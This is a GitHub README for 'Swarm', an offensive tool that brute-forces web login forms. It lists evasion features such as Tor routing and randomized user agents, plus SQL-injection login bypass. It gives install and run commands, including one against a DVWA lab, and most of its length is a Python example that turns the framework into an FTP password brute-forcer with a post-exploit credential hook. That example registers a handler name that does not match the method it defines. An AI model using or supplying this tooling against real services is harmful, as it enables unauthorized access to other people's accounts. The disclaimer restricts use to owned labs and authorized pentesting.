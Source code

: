 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success

	# function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

	# function: post_exploit
	# param: credential 	- Must take a credential object
	# description: Example of a post_exploit handle, you must use set it via: self.setOnSuccessHandle(self.post_exploit)
	def post_exploit(self,credential):
		# -------- Do Something ----------
		# Such as display a custom login message
		# Store credentials in a Database, etc.
		exit()	

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'			# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'			# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'			# the password file to use
ftp_bruteforce.verbose = True					# verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.postExploit)	# Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()						# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)				# starts the bruteforcing task
```

